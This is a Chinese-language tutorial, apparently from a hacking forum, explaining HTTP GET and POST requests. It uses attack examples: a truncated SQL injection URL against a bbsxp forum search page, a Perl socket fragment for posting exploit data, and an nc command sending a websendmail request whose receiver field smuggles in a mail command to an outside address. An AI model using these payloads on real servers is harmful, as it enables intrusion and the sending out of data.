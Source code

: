 这是一个典型的请求头：

GET /bbs/login.asp HTTP/1.0

其中GET就是一个请求方法。/bbs/login.asp是文挡的地址即URI，它是URL的一部分。HTTP/1.0 是http 协议的版本号。这种方式的请求是建立在已经和服务器的套接建立的基础上的。完整的URL 可以是这样的方式： [http://www.target.com/bbs/login.asp](http://www.target.com/bbs/login.asp) 。在http 1.0的协议里定义了三种请求方式：GET，POST，HEAD。http 1.1又补充了一些，如PUT，DELETE，OPTIONS和TRACE。现在也越来越多的服务器支持这些方法。下面我们来介绍一下常用的方法。

GET 这个是浏览器用语向服务器请求最常用的方法。我们在浏览器上发送的URL就是一个GET请求，当然我们也可以用程序，比如netcat，webget等来做。我们有的时候在看到一些黑客高手们在文章中提到的一些请求的例子，可能新手朋友们很难理解，比如：

[http://www.target.com/bbsxp165/bbsxp/searc...password)&gt;1](http://www.target.com/bbsxp165/bbsxp/searc...password)%3e1) )  

这就是一个相当复杂的GET请求，/searchok.asp?是请求这个asp文件，后面就是要传输给这个程序的数据，这个数据是根据网页的交互固定的。服务器接受这个请求后这些数据将被放入环境变量QUERY_STRING中。数据通常是一些数据名/数据值对。没对数据名/数据值之间用&amp;来分开。例子的提交里forumid=()空格里的是一个sql语句，这是由于这里存在sql injection漏洞，当然不在我们讨论的范围。还有GET请求的数据不能超过一个特定的长度，比如2000字节。

POST 这个方法也是用来传送数据的，但是与GET不同的是，使用POST的时候，数据不是附在URI后面传递的，而是要做为独立的行来传递，此时还必须要发送一个Content_length标题，以标明数据长度，随后一个空白行，然后就是实际传送的数据。网页的表单通常是用POST来传送的。这里我们来举两个安全人士常用的提交方式，通常就是黑客们所谓的发现某个网页的或者某个cgi程序的漏洞然后构造一个特殊请求的时候用的：

1，脚本实现

…………

$socket = IO::Socket::INET-&gt;new(PeerAddr =&gt; $host, PeerPort =&gt; $port, Proto =&gt; &quot;tcp&quot;, Type =&gt; SOCK_STREAM) or die &quot;can&amp;apos;t connect to the host\n&quot;;

print $socket &quot;POST /$b HTTP/1.1\r\n&quot;;

print $socket &quot;Host: $host\r\n&quot;;

print $socket &quot;Content-Type: text/xml\r\n&quot;;

print $socket &quot;Content-length: $length\r\n\r\n&quot;;

print $socket &quot;$data\r\n&quot;;

$socket-&gt;recv($rbuf,500);

close($socket);

……….

以上是perl程序POST提交的主体部分，比如一个溢出程序，关键的地方就在于$b（URI）和$data 的构造上！

2， 使用nc来提交

建立一个hack.txt的文件输入下面的内容：

POST /cgi-bin/websendmail HTTP/1.0

Content-length: xxx (should be replaced with the actual length of the

string passed to the server, in this case xxx=90)

receiver=;mail+your_address\@somewhere.org  

然后用nc来请求

nc www.victim.com 80 &lt;hack.txt
